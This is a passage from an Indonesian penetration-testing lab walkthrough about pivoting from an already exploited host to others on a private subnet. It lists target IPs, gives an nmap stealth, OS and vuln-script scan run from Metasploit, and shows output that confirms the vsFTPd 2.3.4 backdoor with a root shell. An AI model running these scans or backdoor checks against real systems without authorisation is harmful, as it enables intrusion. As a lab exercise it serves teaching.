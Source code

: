    2. Buat File `host.txt`:

      ```
      nano host.txt
      ```

   3. Isi dengan:

      ```
      192.168.1.1
      192.168.1.4
      192.168.1.7
      192.168.1.12
      192.168.1.42
      192.168.1.47
      192.168.1.48
      ```

      Kenapa host dengan alamat IP Address `192.168.1.45` tidak diikutsertakan? karena host tersebut sudah dieksploitasi alias sudah menjadi jembatan pertama untuk mengeksploitasi host-host yang lain.

   4. Scan Host-host Tersebut Menggunakan `Nmap`:

      ```
      sudo nmap -sS -sV -T4 -O --script vuln -iL host.txt
      ```

      Keterangan:
      - `-sS`: Menggunakan teknik `SYN` scan (stealth)
      - `-sV`: Mengaktifkan scan versi pada service yang discan
      - `-T4`: Templat waktu (semakin tinggi semakin cepat)
      - `-O`: Mengaktifkan scan OS (sistem operasi)
      - `--script vuln`: Jalankan semua skrip kategori vuln (vulnerability detection)
      - `-iL`: File yang berisi daftar host yang ingin di-scan: `host.txt`

      Hasil output-nya seperti ini:

      ```
      msf6 auxiliary(scanner/discovery/arp_sweep) > sudo nmap -sS -sV -T4 -O --script vuln -iL host.txt
      [*] exec: nmap -sS -sV -T4 -O --script vuln -iL host.txt

      Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-10 06:14 WIB

      Nmap scan report for 192.168.1.48
      Host is up (0.00061s latency).
      Not shown: 977 closed tcp ports (reset)
      PORT     STATE SERVICE     VERSION
      21/tcp   open  ftp         vsftpd 2.3.4
      | ftp-vsftpd-backdoor: 
      |   VULNERABLE:
      |   vsFTPd version 2.3.4 backdoor
      |     State: VULNERABLE (Exploitable)
      |     IDs:  CVE:CVE-2011-2523  BID:48539
      |       vsFTPd version 2.3.4 backdoor, this was reported on 2011-07-04.
      |     Disclosure date: 2011-07-03
      |     Exploit results:
      |       Shell command: id
      |       Results: uid=0(root) gid=0(root)
      |     References:
      |       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-2523